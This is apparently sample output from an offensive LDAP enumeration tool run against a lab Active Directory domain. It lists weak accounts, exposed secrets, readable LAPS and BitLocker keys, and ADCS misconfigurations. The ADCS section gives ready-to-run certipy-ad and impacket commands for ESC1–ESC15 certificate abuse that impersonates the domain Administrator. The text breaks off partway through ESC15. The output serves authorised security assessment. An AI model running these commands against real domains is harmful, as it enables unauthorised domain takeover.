

# Example output

A full `listdap` scan authenticated against a lab Windows Server 2025 DC (all
modules). It enumerates the domain, users, groups, policies, delegations, ADIDNS,
GPOs, gMSA/dMSA, LAPS, BitLocker, Shadow Credentials, trusts and foreign
principals, then runs the full **ADCS ESC1–ESC15** analysis — surfacing **55
prioritised findings** in the Quick Wins summary, each with a ready-to-run
exploitation command. *(Domain, IPs, SIDs and passwords anonymised.)*



```text

  ██╗     ██╗███████╗████████╗██████╗  █████╗ ██████╗ 
  ██║     ██║██╔════╝╚══██╔══╝██╔══██╗██╔══██╗██╔══██╗
  ██║     ██║███████╗   ██║   ██║  ██║███████║██████╔╝
  ██║     ██║╚════██║   ██║   ██║  ██║██╔══██║██╔═══╝ 
  ███████╗██║███████║   ██║   ██████╔╝██║  ██║██║     
  ╚══════╝╚═╝╚══════╝   ╚═╝   ╚═════╝ ╚═╝  ╚═╝╚═╝     
  LDAP enumeration for offensive assessments · v2.19.3

[*] Connecting to 10.10.10.10:389 (LDAP)

  ✔ Connected
    Target:  10.10.10.10:389
    Auth:  NTLM
    Base DN:  DC=corp,DC=lab
[*] GSS-SPNEGO, signed

╔════════════════════════════════════════════════════════════╗
║                     DOMAIN INFORMATION                     ║
╚════════════════════════════════════════════════════════════╝
    Domain:  corp.local
    Base DN:  DC=corp,DC=lab
    Forest DN:  DC=corp,DC=lab
    DC Hostname:  DC01.corp.local
    Domain Func. Level:  Windows Server 2025
    Forest Func. Level:  Windows Server 2025
    Auth Method:  NTLM
    Auth Note:  GSS-SPNEGO, signed
    Authenticated as:  corp.local\administrateur
    Domain SID:  S-1-5-21-1111111111-2222222222-3333333333
    Domain Created:  20261116093734.0Z

  ── FSMO Roles ──
    PDC Emulator / RID Master:  DC01
    Infrastructure Master:  DC01
    Schema Master:  DC01
    Domain Naming Master:  DC01
[!] MachineAccountQuota = 10  (any authenticated user can create 10 machine accounts → RBCD vector)

╔════════════════════════════════════════════════════════════╗
║                           USERS                            ║
╚════════════════════════════════════════════════════════════╝
[*] Users: 14 total | 2 disabled | 0 locked | 1 AS-REP roastable | 2 Kerberoastable | 3 passwd_notreqd | 1 shadow creds | 1 secrets in attrs | 6 adminCount=1 | 1 reversible pwd

  ── Secrets in attributes (info / comment / extensionAttribute / userPassword) ──
    Username  Attribute     Value                                     
    ────────  ────────────  ──────────────────────────────────────────
    svc-app   info          backup svc account, pwd: Backup2026!
    svc-app   userPassword  UnixSecret1                             

  ── Privileged Users ──
    Username  Privileged Groups  Last Logon        Description
    ────────  ─────────────────  ────────────────  ───────────
    lowpriv   DnsAdmins          2026-11-16 10:05             
    pu-test   Protected Users    never                        

  ── AS-REP Roastable (no pre-auth required) ──
    Username  Enc                  Description
    ────────  ───────────────────  ───────────
    noauth    unset (RC4 default)             

  ── Kerberoastable (SPN set) ──
    Username  SPNs                            Enc                  Description
    ────────  ──────────────────────────────  ───────────────────  ───────────
    svc-rc4   MSSQLSvc/rc4host.corp.local:1433  RC4                             
    svc-sql   MSSQLSvc/sql01.corp.local:1433    unset (RC4 default)             

  ── Shadow Credentials (msDS-KeyCredentialLink) ──
    Username  Key Credentials
    ────────  ───────────────
    svc-app   1 key(s)       
[*] See the SHADOW CREDENTIALS section for parsed key detail (creation time / device) and risk scoring.

  ── PASSWD_NOTREQD (may have empty password) ──
    Username  UAC Flags                                Description                
    ────────  ───────────────────────────────────────  ───────────────────────────
    Invité    DISABLED, PASSWD_NOTREQD, NO_EXPIRE_PWD  Compte d’utilisateur invité
    nopwd     PASSWD_NOTREQD, NO_EXPIRE_PWD                                       
    PARTNER$  PASSWD_NOTREQD                                                      

  ── Inactive / Never Logged-in (>90 days) ──
    Username      Last Logon  Flags                                    Description                                        
    ────────────  ──────────  ───────────────────────────────────────  ───────────────────────────────────────────────────
    Invité        never       DISABLED, PASSWD_NOTREQD, NO_EXPIRE_PWD  Compte d’utilisateur invité                        
    krbtgt        never       DISABLED                                 Compte de service du centre de distribution de clés
    svc-app       never       NO_EXPIRE_PWD                            [!!] Default password: Sup3rSecret1                
    svc-des       never       NO_EXPIRE_PWD                                                                               
    svc-rc4       never       NO_EXPIRE_PWD                                                                               
    reverse-user  never       REVERSIBLE_PWD, NO_EXPIRE_PWD                                                               
    stale-admin   never       NO_EXPIRE_PWD                                                                               
    svc-sql       never       NO_EXPIRE_PWD                                                                               
    noauth        never       NO_PREAUTH, NO_EXPIRE_PWD                                                                   
    nopwd         never       PASSWD_NOTREQD, NO_EXPIRE_PWD                                                               
    pu-test       never       -                                                                                           
    PARTNER$      never       PASSWD_NOTREQD                                                                              
[*] 12 inactive/never-logged account(s) — lower risk for password spraying detection

  ── AdminSDHolder Protected (adminCount=1) ──
    Username        Still protected  UAC Flags      Description                                        
    ──────────────  ───────────────  ─────────────  ───────────────────────────────────────────────────
    Administrateur  yes              -              Compte d’utilisateur d’administration              
    krbtgt          yes (krbtgt)     DISABLED       Compte de service du centre de distribution de clés
    lowpriv         yes              NO_EXPIRE_PWD                                                     
    svc-app         yes              NO_EXPIRE_PWD  [!!] Default password: Sup3rSecret1                
    stale-admin     ORPHAN           NO_EXPIRE_PWD                                                     
    svc-sql         yes              NO_EXPIRE_PWD                                                     

  ── Reversible Password Encryption (ENCRYPTED_TEXT_PWD_ALLOWED) ──
    Username      UAC Flags                      Description
    ────────────  ─────────────────────────────  ───────────
    reverse-user  REVERSIBLE_PWD, NO_EXPIRE_PWD             

  ── Weak Kerberos Encryption (msDS-SupportedEncryptionTypes) ──
    DES enabled (trivially crackable):
      Username  Supported etypes
      ────────  ────────────────
      svc-des   DES-CRC, DES-MD5
    RC4-reachable + roastable (fast-cracking hash / AES downgrade):
      Username  Roast   Supported etypes   
      ────────  ──────  ───────────────────
      svc-rc4   SPN     RC4                
      svc-sql   SPN     unset (RC4 default)
      noauth    AS-REP  unset (RC4 default)

  ── All Users ──
    Username        Last Logon        Flags                                    Description                                        
    ──────────────  ────────────────  ───────────────────────────────────────  ───────────────────────────────────────────────────
    Administrateur  2026-11-16 09:48  -                                        Compte d’utilisateur d’administration              
    Invité          never             DISABLED, PASSWD_NOTREQD, NO_EXPIRE_PWD  Compte d’utilisateur invité                        
    krbtgt          never             DISABLED                                 Compte de service du centre de distribution de clés
    lowpriv         2026-11-16 10:05  NO_EXPIRE_PWD                                                                               
    svc-app         never             NO_EXPIRE_PWD                            [!!] Default password: Sup3rSecret1                
    svc-des         never             NO_EXPIRE_PWD                                                                               
    svc-rc4         never             NO_EXPIRE_PWD                                                                               
    reverse-user    never             REVERSIBLE_PWD, NO_EXPIRE_PWD                                                               
    stale-admin     never             NO_EXPIRE_PWD                                                                               
    svc-sql         never             NO_EXPIRE_PWD                                                                               
    noauth          never             NO_PREAUTH, NO_EXPIRE_PWD                                                                   
    nopwd           never             PASSWD_NOTREQD, NO_EXPIRE_PWD                                                               
    pu-test         never             -                                                                                           
    PARTNER$        never             PASSWD_NOTREQD                                                                              

╔════════════════════════════════════════════════════════════╗
║                           GROUPS                           ║
╚════════════════════════════════════════════════════════════╝
[*] Groups: 52 total | 18 privileged

  ── Privileged & shadow-admin groups ──
    Group                               Members  Severity       Escalation                                                                                                                                
    ──────────────────────────────────  ───────  ─────────────  ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
    Administrators                      4        INFO (roster)  Local administrators of the domain controllers → domain compromise                                                                        
    Backup Operators                    2        CRITICAL       Hold SeBackupPrivilege → read protected files (SAM/SYSTEM, and the DC's NTDS                                                              
    DnsAdmins                           1        CRITICAL       Reconfigure the DNS service (ServerLevelPluginDll) to load an arbitrary DLL → code execution as SYSTEM on the DC when the service restarts
    Domain Admins                       1        INFO (roster)  Full control of the domain                                                                                                                
    Enterprise Admins                   1        INFO (roster)  Full control of every domain in the forest                                                                                                
    Schema Admins                       2        CRITICAL       Modify the AD schema — e                                                                                                                  
    Server Operators                    1        CRITICAL       Create/modify services on domain controllers → run a command as SYSTEM on a DC                                                            
    Account Operators                   1        HIGH           Create/modify and reset passwords of non-protected (non-adminCount) users and groups                                                      
    Group Policy Creator Owners         1        HIGH           Create new GPOs; with a link/edit right this is code execution in the linked scope (cross-check the gpo module)                           
    Pre-Windows 2000 Compatible Access  2        HIGH           If this group contains Everyone / Anonymous, large parts of AD become readable without authentication (legacy anonymous enumeration)      
    Cert Publishers                     1        MEDIUM         Members' hosts are trusted to publish certificates; relevant to ADCS / NTAuth review (cross-check the adcs module)                        
    Remote Management Users             1        MEDIUM         WinRM access to member hosts → lateral movement with a member's creds                                                                     
    Protected Users                     1        INFO           Defensive group (hardens members' Kerberos: no NTLM/RC4/delegation)                                                                       

╔════════════════════════════════════════════════════════════╗
║                         COMPUTERS                          ║
╚════════════════════════════════════════════════════════════╝
[*] Computers: 6 total | 1 DCs | 0 EOL OS | 1 unconstrained deleg | 1 constrained deleg | 0 shadow creds

  ── Domain Controllers ──
    Name  DNS            OS                                       Last Logon      
    ────  ─────────────  ───────────────────────────────────────  ────────────────
    DC01  DC01.corp.local  Windows Server 2025 Standard Evaluation  2026-11-16 09:38

  ── Unconstrained Delegation (high-value targets) ──
    Name   DNS  OS  Last Logon
    ─────  ───  ──  ──────────
    WEB01           unknown   

  ── Constrained Delegation ──
    Name   Allowed to Delegate To
    ─────  ──────────────────────
    APP01  CIFS/dc01.corp.local    

╔════════════════════════════════════════════════════════════╗
║                    GROUP POLICY OBJECTS                    ║
╚════════════════════════════════════════════════════════════╝
[*] GPOs: 3 total | 2 notable

  ── Notable GPOs ──
    Name                               Path                                                                        Status 
    ─────────────────────────────────  ──────────────────────────────────────────────────────────────────────────  ───────
    Default Domain Policy              \\corp.local\sysvol\corp.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}  enabled
    Default Domain Controllers Policy  \\corp.local\sysvol\corp.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}  enabled

  ── GPO edit rights (abuse surface) ──
    GPO               Editable by       Linked scope           Severity
    ────────────────  ────────────────  ─────────────────────  ────────
    Lab-DC-Hardening  corp.local\lowpriv  Domain Controllers OU  CRITICAL

╔════════════════════════════════════════════════════════════╗
║                     PASSWORD POLICIES                      ║
╚════════════════════════════════════════════════════════════╝

  ── Default Domain Password Policy ──
    Min. Password Length:  7
    Password History:  24 passwords remembered
    Max. Password Age:  42d
    Complexity:  No complexity requirement
    Lockout Threshold:  0 (disabled)
    Lockout Duration:  10m
    Lockout Obs. Window:  10m

  ── Spray Planning ──
[+] No lockout threshold — unlimited spraying possible (be loud!)

╔════════════════════════════════════════════════════════════╗
║                       DOMAIN TRUSTS                        ║
╚════════════════════════════════════════════════════════════╝
[*] Trusts: 1 total
    Trust Partner  Direction      Type                        Attributes                 
    ─────────────  ─────────────  ──────────────────────────  ───────────────────────────
    partner.local    Bidirectional  Uplevel (Active Directory)  Quarantined (SID filtering)

╔════════════════════════════════════════════════════════════╗
║                 ADIDNS — AD-INTEGRATED DNS                 ║
╚════════════════════════════════════════════════════════════╝
[*] DNS zones: 4 total | 61 records

  ── DNS records ──
    Name                                                                     Type   Value                               
    ───────────────────────────────────────────────────────────────────────  ─────  ────────────────────────────────────
    RootDNSServers                                                           NS     h.root-servers.net.                 
    RootDNSServers                                                           NS     g.root-servers.net.                 
    RootDNSServers                                                           NS     f.root-servers.net.                 
    RootDNSServers                                                           NS     e.root-servers.net.                 
    RootDNSServers                                                           NS     d.root-servers.net.                 
    RootDNSServers                                                           NS     c.root-servers.net.                 
    RootDNSServers                                                           NS     b.root-servers.net.                 
    RootDNSServers                                                           NS     a.root-servers.net.                 
    RootDNSServers                                                           NS     m.root-servers.net.                 
    RootDNSServers                                                           NS     l.root-servers.net.                 
    RootDNSServers                                                           NS     k.root-servers.net.                 
    RootDNSServers                                                           NS     j.root-servers.net.                 
    RootDNSServers                                                           NS     i.root-servers.net.                 
    RootDNSServers                                                           NS     h.root-servers.net.                 
    RootDNSServers                                                           NS     g.root-servers.net.                 
    RootDNSServers                                                           NS     f.root-servers.net.                 
    RootDNSServers                                                           NS     e.root-servers.net.                 
    RootDNSServers                                                           NS     d.root-servers.net.                 
    RootDNSServers                                                           NS     c.root-servers.net.                 
    RootDNSServers                                                           NS     b.root-servers.net.                 
    RootDNSServers                                                           NS     a.root-servers.net.                 
    RootDNSServers                                                           NS     m.root-servers.net.                 
    RootDNSServers                                                           NS     l.root-servers.net.                 
    RootDNSServers                                                           NS     k.root-servers.net.                 
    RootDNSServers                                                           NS     j.root-servers.net.                 
    RootDNSServers                                                           NS     i.root-servers.net.                 
    a.root-servers.net.RootDNSServers                                        AAAA   2001:503:ba3e::2:30                 
    a.root-servers.net.RootDNSServers                                        AAAA   2001:503:ba3e::2:30                 
    b.root-servers.net.RootDNSServers                                        AAAA   2801:1b8:10::b                      
    b.root-servers.net.RootDNSServers                                        AAAA   2801:1b8:10::b                      
    c.root-servers.net.RootDNSServers                                        AAAA   2001:500:2::c                       
    c.root-servers.net.RootDNSServers                                        AAAA   2001:500:2::c                       
    d.root-servers.net.RootDNSServers                                        AAAA   2001:500:2d::d                      
    d.root-servers.net.RootDNSServers                                        AAAA   2001:500:2d::d                      
    e.root-servers.net.RootDNSServers                                        AAAA   2001:500:a8::e                      
    e.root-servers.net.RootDNSServers                                        AAAA   2001:500:a8::e                      
    f.root-servers.net.RootDNSServers                                        AAAA   2001:500:2f::f                      
    f.root-servers.net.RootDNSServers                                        AAAA   2001:500:2f::f                      
    g.root-servers.net.RootDNSServers                                        AAAA   2001:500:12::d0d                    
    g.root-servers.net.RootDNSServers                                        AAAA   2001:500:12::d0d                    
    h.root-servers.net.RootDNSServers                                        AAAA   2001:500:1::53                      
    h.root-servers.net.RootDNSServers                                        AAAA   2001:500:1::53                      
    i.root-servers.net.RootDNSServers                                        AAAA   2001:7fe::53                        
    i.root-servers.net.RootDNSServers                                        AAAA   2001:7fe::53                        
    j.root-servers.net.RootDNSServers                                        AAAA   2001:503:c27::2:30                  
    j.root-servers.net.RootDNSServers                                        AAAA   2001:503:c27::2:30                  
    k.root-servers.net.RootDNSServers                                        AAAA   2001:7fd::1                         
    k.root-servers.net.RootDNSServers                                        AAAA   2001:7fd::1                         
    l.root-servers.net.RootDNSServers                                        AAAA   2001:500:9f::42                     
    l.root-servers.net.RootDNSServers                                        AAAA   2001:500:9f::42                     
    m.root-servers.net.RootDNSServers                                        AAAA   2001:dc3::35                        
    m.root-servers.net.RootDNSServers                                        AAAA   2001:dc3::35                        
    08928acb-aa53-40b7-8366-229d0e3b81fb._msdcs.corp.local                     CNAME  dc01.corp.local.                      
    _msdcs.corp.local                                                          NS     dc01.corp.local.                      
    _msdcs.corp.local                                                          SOA    primary=dc01.corp.local.              
    _kerberos._tcp.Default-First-Site-Name._sites.dc._msdcs.corp.local         SRV    0 100 88 dc01.corp.local.             
    _kerberos._tcp.dc._msdcs.corp.local                                        SRV    0 100 88 dc01.corp.local.             
    _ldap._tcp.Default-First-Site-Name._sites.dc._msdcs.corp.local             SRV    0 100 389 dc01.corp.local.            
    _ldap._tcp.Default-First-Site-Name._sites.gc._msdcs.corp.local             SRV    0 100 3268 dc01.corp.local.           
    _ldap._tcp.dc._msdcs.corp.local                                            SRV    0 100 389 dc01.corp.local.            
    _ldap._tcp.dedf6fee-ae93-445b-af5b-99935f99e952.domains._msdcs.corp.local  SRV    0 100 389 dc01.corp.local.            
    _ldap._tcp.gc._msdcs.corp.local                                            SRV    0 100 3268 dc01.corp.local.           
    _ldap._tcp.pdc._msdcs.corp.local                                           SRV    0 100 389 dc01.corp.local.            
    gc._msdcs.corp.local                                                       A      10.10.10.10                      
    *.corp.local                                                               A      10.10.10.99                       
    corp.local                                                                 SOA    primary=dc01.corp.local.              
    corp.local                                                                 NS     dc01.corp.local.                      
    corp.local                                                                 A      10.10.10.10                      
    DomainDnsZones.corp.local                                                  A      10.10.10.10                      
    ForestDnsZones.corp.local                                                  A      10.10.10.10                      
    _gc._tcp.corp.local                                                        SRV    0 100 3268 dc01.corp.local.           
    _gc._tcp.Default-First-Site-Name._sites.corp.local                         SRV    0 100 3268 dc01.corp.local.           
    _kerberos._tcp.corp.local                                                  SRV    0 100 88 dc01.corp.local.             
    _kerberos._tcp.Default-First-Site-Name._sites.corp.local                   SRV    0 100 88 dc01.corp.local.             
    _kerberos._udp.corp.local                                                  SRV    0 100 88 dc01.corp.local.             
    _kpasswd._tcp.corp.local                                                   SRV    0 100 464 dc01.corp.local.            
    _kpasswd._udp.corp.local                                                   SRV    0 100 464 dc01.corp.local.            
    _ldap._tcp.corp.local                                                      SRV    0 100 389 dc01.corp.local.            
    _ldap._tcp.Default-First-Site-Name._sites.corp.local                       SRV    0 100 389 dc01.corp.local.            
    _ldap._tcp.Default-First-Site-Name._sites.DomainDnsZones.corp.local        SRV    0 100 389 dc01.corp.local.            
    _ldap._tcp.Default-First-Site-Name._sites.ForestDnsZones.corp.local        SRV    0 100 389 dc01.corp.local.            
    _ldap._tcp.DomainDnsZones.corp.local                                       SRV    0 100 389 dc01.corp.local.            
    _ldap._tcp.ForestDnsZones.corp.local                                       SRV    0 100 389 dc01.corp.local.            
    _msdcs.corp.local                                                          NS     dc01.corp.local.                      
    dc01.corp.local                                                            AAAA   fd17:625c:f037:2:5f2d:3143:a018:b0a7
    dc01.corp.local                                                            A      10.10.10.10                      
    dc01.corp.local                                                            A      10.0.2.15                           
    fileserver.corp.local                                                      A      10.10.10.50                       
    intranet.corp.local                                                        A      10.10.10.51                       
    legacy-app.corp.local                                                      A      10.10.10.60                       

  ── Wildcard records (*) ──
    Zone      Wildcard (*) value
    ────────  ──────────────────
    corp.local  A 10.10.10.99   

  ── Zone Create-Child (record spoofing) ──
    Zone             Trustee              SID       Reach           
    ───────────────  ───────────────────  ────────  ────────────────
    corp.local         Authenticated Users  S-1-5-11  broad (any user)
    _msdcs.corp.local  Authenticated Users  S-1-5-11  broad (any user)

  ── Writable existing records (hijack) ──
    Record               Type(s)  Writable by     
    ───────────────────  ───────  ────────────────
    legacy-app.corp.local  A        corp.local\lowpriv

╔════════════════════════════════════════════════════════════╗
║                        DELEGATIONS                         ║
╚════════════════════════════════════════════════════════════╝
[*] Delegation findings: 3 total | 1 unconstrained | 1 constrained | 1 RBCD

  ── Unconstrained Delegation ──
    Account  Type    
    ───────  ────────
    WEB01$   Computer

  ── Constrained Delegation ──
    Account  Type      Allowed Services  
    ───────  ────────  ──────────────────
    APP01$   Computer  CIFS/dc01.corp.local

  ── Resource-Based Constrained Delegation (RBCD) ──
    Resource Account  Type    
    ────────────────  ────────
    SQL01$            Computer

╔════════════════════════════════════════════════════════════╗
║           gMSA / dMSA — MANAGED SERVICE ACCOUNTS           ║
╚════════════════════════════════════════════════════════════╝
[*] Managed accounts: 2 total | 1 gMSA | 1 dMSA

    dMSA01$  (dMSA)
          Note:  supersedes [priv] Administrateur (migration completed (supersedes the linked account))

  ── Managed accounts ──
    Account  Type  Enabled  Pwd read  Note                                                                                  
    ───────  ────  ───────  ────────  ──────────────────────────────────────────────────────────────────────────────────────
    gMSA01$  gMSA  yes      no        -                                                                                     
    dMSA01$  dMSA  yes      no        supersedes [priv] Administrateur (migration completed (supersedes the linked account))

╔════════════════════════════════════════════════════════════╗
║                         sIDHistory                         ║
╚════════════════════════════════════════════════════════════╝
[+] No accounts with sIDHistory set

╔════════════════════════════════════════════════════════════╗
║                FOREIGN SECURITY PRINCIPALS                 ║
╚════════════════════════════════════════════════════════════╝

  ── External principals & their group membership ──
    Foreign SID                                     Source trust  Member of                 Severity
    ──────────────────────────────────────────────  ────────────  ────────────────────────  ────────
    S-1-5-21-4444444444-5555555555-6666666666-1102  partner.local   Opérateurs de sauvegarde  CRITICAL

╔════════════════════════════════════════════════════════════╗
║                ACLs — SENSITIVE PERMISSIONS                ║
╚════════════════════════════════════════════════════════════╝

  ── DCSync Rights (DS-Replication-Get-Changes-All) ──
    Account / Group   SID                                             Rights                                  
    ────────────────  ──────────────────────────────────────────────  ────────────────────────────────────────
    corp.local\lowpriv  S-1-5-21-1111111111-2222222222-3333333333-1103  FULL DCSync (GetChanges + GetChangesAll)

  ── Dangerous Permissions on Sensitive Objects ──
[+] No dangerous permissions detected on sensitive objects

  ── Outbound Control — rights held by the current account ──
[+] Current account holds no dangerous rights over other objects

╔════════════════════════════════════════════════════════════╗
║                            LAPS                            ║
╚════════════════════════════════════════════════════════════╝
[*] Legacy LAPS (ms-Mcs-AdmPwd): not detected / not deployed

  ── Windows LAPS (msLAPS-Password) ──
[!!] 1 Windows LAPS password(s) readable!
    Computer  Local Admin Password                                         Expires
    ────────  ───────────────────────────────────────────────────────────  ───────
    WEB01     {"n":"Administrator","t":"1d9f...","p":"L@psSecret1"}  unknown

╔════════════════════════════════════════════════════════════╗
║                 BITLOCKER — RECOVERY KEYS                  ║
╚════════════════════════════════════════════════════════════╝
[*] BitLocker recovery objects: 1 total | 1 readable key | 0 escrowed (no read)

  ── Recovery information ──
    Computer  Recovery GUID                         Created   Recovery password                                      
    ────────  ────────────────────────────────────  ────────  ───────────────────────────────────────────────────────
    WEB01     75b0fb3d-44fb-4919-941e-94a5dd4dc7fd  20261116  123456-234567-345678-456789-567890-678901-789012-890123

╔════════════════════════════════════════════════════════════╗
║                ADCS — CERTIFICATE SERVICES                 ║
╚════════════════════════════════════════════════════════════╝
[+] 1 Certificate Authority(ies) found
[*] Certificate Templates: 40 total

  ── CA: corp-CA ──
    Hostname:  DC01.corp.local
    Published templates:  18
[*] ESC8: web enrollment reachable (http) on corp-CA
      Endpoint:  http://10.10.10.10/certsrv/

  ── ESC1 — Enrollee Supplies Subject + Client Auth EKU ──
    Autorité de certification secondaire
          Enrollable by:  Domain Admins, Enterprise Admins
          Exploit:  
        # Direct (RPC/DCOM — needs TCP 135 + dynamic RPC ports open to the CA):
        certipy-ad req -u 'administrateur@corp.local' -p 'P@ssw0rd!' -dc-ip 10.10.10.10 -ca 'corp-CA' -template 'SubCA' -upn 'Administrator@corp.local'
        certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.10.10
        # If RPC is filtered ('No route to host' / endpoint mapper) — use Kerberos:
        impacket-getTGT corp.local/administrateur:'P@ssw0rd!' -dc-ip 10.10.10.10
        export KRB5CCNAME=administrateur.ccache
        certipy-ad req -u 'administrateur@corp.local' -k -no-pass -target 'DC01.corp.local' -dc-ip 10.10.10.10 -ns 10.10.10.10 -dns-tcp -ca 'corp-CA' -template 'SubCA' -upn 'Administrator@corp.local'
        certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.10.10
    ESC1-Test
          EKUs:  1.3.6.1.5.5.7.3.2, 1.3.6.1.5.5.7.3.2
          Enrollable by:  Domain Users, Domain Admins, Enterprise Admins
          Exploit:  
        # Direct (RPC/DCOM — needs TCP 135 + dynamic RPC ports open to the CA):
        certipy-ad req -u 'administrateur@corp.local' -p 'P@ssw0rd!' -dc-ip 10.10.10.10 -ca 'corp-CA' -template 'ESC1-Test' -upn 'Administrator@corp.local'
        certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.10.10
        # If RPC is filtered ('No route to host' / endpoint mapper) — use Kerberos:
        impacket-getTGT corp.local/administrateur:'P@ssw0rd!' -dc-ip 10.10.10.10
        export KRB5CCNAME=administrateur.ccache
        certipy-ad req -u 'administrateur@corp.local' -k -no-pass -target 'DC01.corp.local' -dc-ip 10.10.10.10 -ns 10.10.10.10 -dns-tcp -ca 'corp-CA' -template 'ESC1-Test' -upn 'Administrator@corp.local'
        certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.10.10
    ESC15-Test
          EKUs:  1.3.6.1.5.5.7.3.2, 1.3.6.1.5.5.7.3.4
          Enrollable by:  Domain Users, Domain Admins, Enterprise Admins
          Exploit:  
        # Direct (RPC/DCOM — needs TCP 135 + dynamic RPC ports open to the CA):
        certipy-ad req -u 'administrateur@corp.local' -p 'P@ssw0rd!' -dc-ip 10.10.10.10 -ca 'corp-CA' -template 'ESC15-Test' -upn 'Administrator@corp.local'
        certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.10.10
        # If RPC is filtered ('No route to host' / endpoint mapper) — use Kerberos:
        impacket-getTGT corp.local/administrateur:'P@ssw0rd!' -dc-ip 10.10.10.10
        export KRB5CCNAME=administrateur.ccache
        certipy-ad req -u 'administrateur@corp.local' -k -no-pass -target 'DC01.corp.local' -dc-ip 10.10.10.10 -ns 10.10.10.10 -dns-tcp -ca 'corp-CA' -template 'ESC15-Test' -upn 'Administrator@corp.local'
        certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.10.10

  ── ESC2 — Any Purpose / No EKU ──
    ESC2-Test
          Enrollable by:  Domain Users, Domain Admins, Enterprise Admins
          Exploit:  
        certipy-ad req -u 'administrateur@corp.local' -p 'P@ssw0rd!' -dc-ip 10.10.10.10 -ca 'corp-CA' -template 'ESC2-Test'
        # Any-Purpose/SubCA cert — usable for client auth; then certipy-ad auth -pfx <out>.pfx -dc-ip 10.10.10.10
        # If RPC is filtered — Kerberos: impacket-getTGT corp.local/administrateur:'P@ssw0rd!' -dc-ip 10.10.10.10 && export KRB5CCNAME=administrateur.ccache
        certipy-ad req -u 'administrateur@corp.local' -k -no-pass -target 'DC01.corp.local' -dc-ip 10.10.10.10 -ns 10.10.10.10 -dns-tcp -ca 'corp-CA' -template 'ESC2-Test'

  ── ESC3 — Certificate Request Agent ──
    ESC3-Test
          Enrollable by:  Domain Users, Domain Admins, Enterprise Admins
          Exploit:  
        certipy-ad req -u 'administrateur@corp.local' -p 'P@ssw0rd!' -dc-ip 10.10.10.10 -ca 'corp-CA' -template 'ESC3-Test'   # enrollment-agent cert
        certipy-ad req -u 'administrateur@corp.local' -p 'P@ssw0rd!' -dc-ip 10.10.10.10 -ca 'corp-CA' -template User -pfx <agent>.pfx -on-behalf-of 'CORP\Administrator'
        certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.10.10
        # If RPC is filtered — Kerberos (add: impacket-getTGT corp.local/administrateur:'P@ssw0rd!' -dc-ip 10.10.10.10 && export KRB5CCNAME=administrateur.ccache ; then -k -no-pass -target 'DC01.corp.local' -ns 10.10.10.10 -dns-tcp to each req)

  ── ESC9 — No Security Extension (szOID SID binding omitted) ──
    ESC9-Test
          EKUs:  1.3.6.1.5.5.7.3.2, 1.3.6.1.5.5.7.3.2
          Enrollable by:  Domain Users, Domain Admins, Enterprise Admins
          Exploit:  
        # Direct (RPC/DCOM — needs TCP 135 + dynamic RPC ports open to the CA):
        certipy-ad req -u 'administrateur@corp.local' -p 'P@ssw0rd!' -dc-ip 10.10.10.10 -ca 'corp-CA' -template 'ESC9-Test' -upn 'Administrator@corp.local'
        certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.10.10
        # If RPC is filtered ('No route to host' / endpoint mapper) — use Kerberos:
        impacket-getTGT corp.local/administrateur:'P@ssw0rd!' -dc-ip 10.10.10.10
        export KRB5CCNAME=administrateur.ccache
        certipy-ad req -u 'administrateur@corp.local' -k -no-pass -target 'DC01.corp.local' -dc-ip 10.10.10.10 -ns 10.10.10.10 -dns-tcp -ca 'corp-CA' -template 'ESC9-Test' -upn 'Administrator@corp.local'
        certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.10.10

  ── ESC13 — Issuance Policy linked to an AD group (OIDToGroupLink) ──
    ESC13-Test
          EKUs:  1.3.6.1.5.5.7.3.2, 1.3.6.1.5.5.7.3.2
          Grants group:  ESC13-Admins (S-1-5-21-1111111111-2222222222-3333333333-1118)
          Enrollable by:  Domain Users, Domain Admins, Enterprise Admins
          Exploit:  
        certipy-ad req -u 'administrateur@corp.local' -p 'P@ssw0rd!' -dc-ip 10.10.10.10 -ca 'corp-CA' -template 'ESC13-Test'   # issued cert carries the OID-linked group
        certipy-ad auth -pfx administrateur.pfx -dc-ip 10.10.10.10   # PKINIT PAC now grants: ESC13-Admins
        # No SAN needed — the issuance policy confers membership of ESC13-Admins on any enrollee.

  ── ESC15 — EKUwu — schema V1 template, enrollee supplies subject (CVE-2024-49019) ──
    Serveur Web
          EKUs:  1.3.6.1.5.5.7.3.1
          Enrollable by:  Domain Admins, Enterprise Admins
          Exploit:  
        # EKUwu (CVE-2024-49019): inject an Application Policy into a V1 template.
        # Scenario A — direct impersonation (inject Client Authentication):
        certipy-ad req -u 'administrateur@corp.local' -p 'P@ssw0rd!' -dc-ip 10.10.10.10 -ca 'corp-CA' -template 'WebServer' -upn 'Administrator@corp.local' -sid '<target-SID>' -application-policies 'Client Authentication'
        certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.10.10
        # Scenario B — inject Certificate Request Agent, then enroll on-behalf-of (ESC3-style):
        certipy-ad req -u 'administrateur@corp.local' -p 'P@ssw0rd!' -dc-ip 10.10.10.10 -ca 'corp-CA' -template 'WebServer' -application-policies 'Certificate Request Agent'
        certipy-ad req -u 'administrateur@corp.local' -p 'P@ssw0rd!' -dc-ip 10.10.10.10 -ca 'corp-CA' -template User -pfx <agent>.pfx -on-behalf-of 'CORP\Administrator'
